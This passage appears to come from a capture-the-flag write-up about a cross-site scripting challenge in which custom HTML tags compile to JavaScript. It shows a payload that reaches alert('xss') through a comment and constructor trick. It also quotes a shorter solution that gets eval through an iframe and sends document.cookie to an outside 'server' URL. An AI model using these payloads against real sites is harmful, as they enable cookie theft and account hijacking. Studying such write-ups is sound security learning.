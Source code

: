 ``` html
    <x-const>
        <x-identifier>c</x-identifier>
        <x-call>
            <x-identifier>b</x-identifier>
            <x-str>alert("xss")</x-str>
        </x-call>      
    </x-const>

    <x-call>
        <x-identifier>c</x-identifier>
    </x-call>  
</x-program>
```

will become:

``` js
const write = (s) => alert(s);
const read = (s) => prompt(s);

const $a$="x"<!--$asd$;
["toString"];
const $b$=$a$<!--$asd$;
["constructor"];
const $c$=($b$)("alert(\"xss\")");
($c$)();
```

terjanq's [solution](https://gist.github.com/terjanq/1926a1afb420bd98ac7b97031e377436) is shorter, directly using iframe + name to get the feature of window in the iframe, and then get the eval in the iframe (it doesn't matter if you remove that if):

```html
<iframe name=$win$></iframe>
<x-program>
    <x-if>
        <x-num>1</x-num>
        <x-const>
            <x-identifier>test</x-identifier>
        
            <x-lt>
                <x-identifier>win</x-identifier>
                
                <x-not><x-dec>
                    <x-identifier>asd</x-identifier>
                </x-dec></x-not>
            </x-lt>        
        </x-const>
        <x-array>
                <x-str>eval</x-str>
        </x-array>
        <x-call>
            <x-identifier>test</x-identifier>
            <x-str>top.location='https://server/?c='+document.cookie</x-str>
        </x-call>
    </x-if>
</x-program>
```
